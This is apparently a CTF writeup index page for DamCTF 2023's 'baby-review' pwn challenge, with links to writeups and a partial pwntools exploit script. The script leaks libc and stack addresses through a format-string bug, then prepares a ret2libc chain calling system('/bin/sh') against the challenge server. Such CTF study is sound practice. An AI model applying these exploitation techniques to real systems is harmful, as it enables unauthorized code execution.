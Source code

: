 ```yaml
---
title: DamCTF 2023
weight: 0
---
```


# DamCTF 2023
- [CTFTime](https://ctftime.org/event/1872)
- [GitLab](https://gitlab.com/osusec/damctf-2023-challenges/-/tree/main/)

## **Binary**
### baby-review
- https://github.com/12throckyou/ctf-writeups/blob/main/damctf/pwn/baby-review/README.md
- https://rektedekte.github.io/CTF-writeups/DamCTF%202023/baby-review/

{{< details title="crusom#5664" open=false >}}
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./baby-review_patched")
libc = ELF("./libc.so.6")

context.binary = exe
context.terminal = ['st']

#r = process([exe.path])
#r = gdb.debug([exe.path])
r = remote('chals.damctf.xyz', 30888)


def main():
    print(r.recvlines(2))
    capital = input()
    r.sendline(str.encode(capital))

    r.sendlineafter(b"Exit", b"5")
    # %8$p is 0x7fffffffddd0
    # saved rip is 0x7fffffffddd8 
    r.sendlineafter(b"list", b"%3$p.%8$p")
    r.sendlineafter(b"Exit", b"2")
    r.readlines(6)

    leaked = r.recvline().strip()
    addr_in_libc = int(leaked[2:2+12], 16)
    stack_rip    = int(leaked[15:], 16) 
    print(hex(addr_in_libc))
    print(hex(stack_rip))

    off = 0x114a37
    libc.address = addr_in_libc - off
    
    binsh = next(libc.search(b'/bin/sh\0'))
    print("binsh: " + str(hex(binsh)))

    pop_rdi_ret = libc.address + 0x002a3e5
    print("pop_rdi: " + str(hex(pop_rdi_ret)))
    print("system: " + str(hex(libc.symbols['system'])))

    print("writing binsh to: " + str(hex(stack_rip + 16)))
    print("writing system to: " + str(hex(stack_rip + 24)))
```